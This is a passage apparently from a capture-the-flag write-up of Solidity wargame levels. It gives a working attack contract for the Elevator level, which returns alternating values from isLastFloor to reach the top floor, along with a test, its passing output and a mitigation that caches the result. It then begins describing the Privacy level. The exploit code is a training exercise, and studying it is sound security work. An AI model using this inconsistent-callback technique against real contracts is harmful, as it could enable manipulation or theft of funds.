 ```solidity
 contract BuildingAttack is Building {
    Elevator public elevator;
    bool public flipFlop = true;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function attack() external {
        elevator.goTo(1); // call from attacker
    }

    function isLastFloor(uint256) external override returns (bool) {
        flipFlop = !flipFlop;
        return flipFlop;
    }
}
```
### 🧪 Exploit Test
```solidity 
  function test_attack() public {
    attackerContract.attack(); // Call via attacker
    assertEq(elevator.top(), true);
    assertEq(elevator.floor(), 1);
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 67276)
Elevator::top() → true
Elevator::floor() → 1

```
### 🔒Recommended Mitigation
Ensure external calls are not made multiple times for critical logic — or cache the result:
``` solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);
    bool isLast = building.isLastFloor(_floor);

    if (!isLast) {
        floor = _floor;
        top = isLast;
    }
}
```
---
## Level 13: Privacy
**AttackDesc**:
The contract stores a private bytes32[3] array called data, and the unlock() function requires the first 16 bytes of data[2] to unlock the contract.
